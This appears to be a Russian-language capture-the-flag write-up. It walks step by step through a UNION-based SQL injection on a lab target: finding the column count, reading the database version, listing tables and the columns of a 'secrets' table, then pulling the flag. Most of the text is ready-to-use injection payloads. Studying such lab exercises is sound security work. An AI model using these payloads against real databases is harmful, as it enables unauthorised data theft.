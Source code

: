 С помощью UNION SELECT ALL NULL проверяем количество колонок ( при вводе UNION SELECT ALL NULL,NULL,NULL,NULL -- появляется ошибка) => 5 колонки

![](../../attachment/Pasted%20image%2020250421143133.png)

С помощью запроса определим версию базы '1+'+UNION+SELECT+ALL+NULL,VERSION(),NULL,NULL,NULL-- 

![](../../attachment/Pasted%20image%2020250421143323.png)

Выводим таблицы '1+'+UNION+SELECT+ALL+NULL,string_agg(table_name,','),NULL,NULL,NULL+FROM+information_schema.tables--

![](../../attachment/Pasted%20image%2020250421143535.png)

Выводим колонки таблицы secrets '1+'+UNION+SELECT+ALL+NULL,string_agg(column_name,','),NULL,NULL,NULL+FROM+information_schema.columns+WHERE+table_name='secrets'--

![](../../attachment/Pasted%20image%2020250421143706.png)

Выводим флаг
![](../../attachment/Pasted%20image%2020250421144545.png)